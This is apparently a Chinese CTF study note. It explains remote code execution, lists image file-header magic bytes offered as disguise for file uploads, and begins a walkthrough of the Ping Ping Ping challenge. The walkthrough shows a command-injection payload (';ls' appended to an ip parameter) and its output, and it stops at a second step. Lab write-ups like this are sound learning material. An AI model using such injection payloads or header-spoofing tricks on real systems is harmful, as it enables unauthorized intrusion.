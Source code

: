 
>远程代码执行 （RCE） 是指一类网络攻击，攻击者在其中远程执行命令以在您的计算机或网络上放置恶意软件或其他恶意代码。在 RCE 攻击中，不需要您的用户输入。远程代码执行漏洞可能会破坏用户的敏感数据，而黑客无需获得对您的网络的物理访问权限。

由于远程代码执行是一个如此宽泛的术语，因此没有一种单一的方法可以预期 RCE 攻击会起作用。一般来说，RCE 攻击分为三个阶段：

- 1.黑客识别网络硬件或软件中的漏洞
- 2.他们会在设备上远程放置恶意代码或恶意软件来利用这个漏洞
- 3.一旦黑客可以访问您的网络，他们就会破坏用户数据或将您的网络用于其他目的。

-----

ps：图片文件头前缀（作用是掩护障眼法）

```txt
JPG:FF D8 FF E0 00 10 4A 46 49 46（16进制编码）
GIF：47 49 46 38 39 61（ascll值是GIF89a）
PNG： 89 50 4E 47

```

<a href=https://juejin.cn/post/7160512633132171294>常见图片格式之二进制格式分析</a>
<a href=https://www.cnblogs.com/zhiliu/p/16825982.html>参考一下</a>
<a href=https://www.cnblogs.com/cjjcn/p/13954347.html>常见文件头/尾总结</a>


-------
-------

## [GXYCTF2019]Ping Ping Ping 1

依旧是随便点开的一个题目，但很有趣。
主要是想用用firefox渗透版，不太想每次打开burp suite。

### 1 


#### （1）

打开靶场，扑面而来一个
`/?ip=`
（如果有点觉悟就会想起来之前做的文件上传从而意识到这是个URL地址符提示。不过当时没有，甚至在想这是什么代码……php？html？）
于是熟练的打开edge查询wp。
于是
```URL
http://2993ad62-21c8-4f1d-b4d6-05bdd7130b70.node4.buuoj.cn:81/?ip=127.0.0.1;ls
```
喜提
(补充：尝试了一下`&& ls`，什么有用的也没有得到)
```txt
PING 127.0.0.1 (127.0.0.1): 56 data bytes
flag.php
index.php
```
这告诉我们有两个php文件，名字如上。

#### （2） 
